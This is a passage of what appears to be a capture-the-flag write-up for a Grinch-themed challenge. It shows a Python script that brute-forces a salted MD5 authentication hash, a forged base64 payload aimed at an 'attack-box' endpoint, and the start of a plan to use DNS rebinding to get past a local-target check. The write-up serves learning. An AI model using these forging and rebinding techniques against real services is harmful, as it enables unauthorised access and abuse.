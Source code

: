 ```python
            print(f"{round((i/len(salts) * 100), 1)}%", end="\r")

        if hashlib.md5((salt + IP).encode('utf-8')).hexdigest() == TARGET_HASH:
            print("Format is MD5(salt + IP)")
            found = True
        elif hashlib.md5((IP + salt).encode('utf-8')).hexdigest() == TARGET_HASH:
            print("Format is MD5(IP + salt")
            found = True
        if found:
            print(f"Salt is '{salt}'")
            break
```
```
$ ./exploit.py
Format is MD5(salt + IP)
Salt is 'mrgrinch463'
```

A quick test shows this works for our existing values

IP | MD5(salt + IP)
--- | ---
203.0.113.33 | 5f2940d65ca4140cc18d0878bc398955
203.0.113.53 | 2814f9c7311a82f1b822585039f62607
203.0.113.213 | 5aa9b5a497e3918c0e1900b2a2228c38

Great! Now we can forge some authenticated requests.

## Forging Authenticated Requests
Using the trick above, we can make a payload for the local IP `{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}`. After encoding as base64, we can run the attack by accessing `/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==`.

Output:
```
grinch@attackbox:~/tools$ ./ddos --load 5ef7f0e45440b03e470946ab65f02a9c.target
Setting Target Information
Getting Host Information for: 127.0.0.1
Local target detected, aborting attack
Setting Target Information
Getting Host Information for: 127.0.0.1
Local target detected, aborting attack
```

Hmm, there is a protection mechanism to prevent us from attacking the Grinch's own server. The output shows us that it is determining this by looking up host information. Maybe we can get around this with some DNS trickery.

## Some DNS Trickery

I found [this blog post](https://medium.com/@brannondorsey/attacking-private-networks-from-the-internet-with-dns-rebinding-ea7098a2d325) which explains DNS rebinding. A main takeaway from the post is:
> DNS can be abused to trick web browsers into communicating with servers they don’t intend to.
